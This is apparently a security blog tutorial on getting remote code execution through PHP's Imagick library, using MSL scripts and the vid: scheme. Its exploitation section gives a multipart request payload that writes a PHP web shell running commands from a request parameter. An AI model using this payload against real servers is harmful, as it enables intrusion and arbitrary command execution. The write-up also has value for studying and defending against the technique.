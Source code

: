 ```yaml
---
title: "Surprising Imagick with RCE"
description: "Exploiting PHP's Imagick library through MSL scripting to achieve Remote Code Execution (RCE) on a vulnerable server."
---
```


![runcloud-install-imagemagick-imagick-single-720x183](https://github.com/kris3c/kris3c.github.io/assets/128035061/9e7d1a0c-38da-461a-b0aa-dd523c149f7b)

`Date : 27 Dec 2023 Wednesday`

Hey Hackers, In this article we will understand how we can abuse the imagic fucntion of php to execute our php code and gain RCE on the server.

### Table of Content


1. [Understanding Imagick](#understanding-imagick)
2. [Testing the vulnerability](#testing-the-vulnerability)
3. [Exploitation](#exploitation)

### Understanding Imagick 

Imagick is a library in PHP that allows us to manipulate any image file. It supports different formats png, jpg, txt etc but the most interesting supported format is MSL.

MSL stands for Magick Scripting Language and it is based on XML. It facilitate reading of images , manipulating them and storing them back in the filesystem.

Example :

```
touch /tmp/test/test.msl
```

```
<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="http://IP/image.png" />
<write filename="/tmp/test/image-exported.png" />
</image>
```

This script will read the file image.png from the provided location and write the file in the /tmp/test directory.

To use the script in PHP we need to use the msl: scheme with in the Imagick function as :

```
php -r '$img = new Imagick("msl:/temp/test.msl");'
```

### Testing the vulnerability 

To test the vulnerability we can simply add "\[10x10]"  at the end of the filename 

```
{php
	path:"var/www/html/image.png[10x10]"
	...
}
```

Now check whether the content length is changed or not. If the content length is changed it indicates that we have access to the imagick library.  

### Exploitation 

```
Required Header :

Content-Type: multipart/form-data; boundary=ABC

Arguments for the required parameters :

vid:msl:/tmp/php*

Example : path paramter is required in the request that takes path of the image.

?path=/var/www/image.png
?path=vid:msl:/tmp/php*
```

**vid: scheme** - This scheme allows us to include tmp file with MSL content without actually knowing the name of the file. Here we are using wildcard with php to manipulate a php file.


```xml
--ABC
Content-Disposition: form-data; name="payload"; filename="payload.msl"
Content-Type: text/plain
 
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php @system(@$_REQUEST['cmd']); ?&gt;" />
 <write filename="info:</path/to/writeable/directory>/payload.php" />
</image>
--ABC--
```

Steps followed by the application are :

1. Calling the MSL script :  To call out the MSL script we need to know the absolute path of the script but we don't know that so we have used the vid: scheme to include a temp MSL script.
2. Executing the script : First server will read the content (our payload) as caption for the file then it will write the caption as information to the payload.php file.
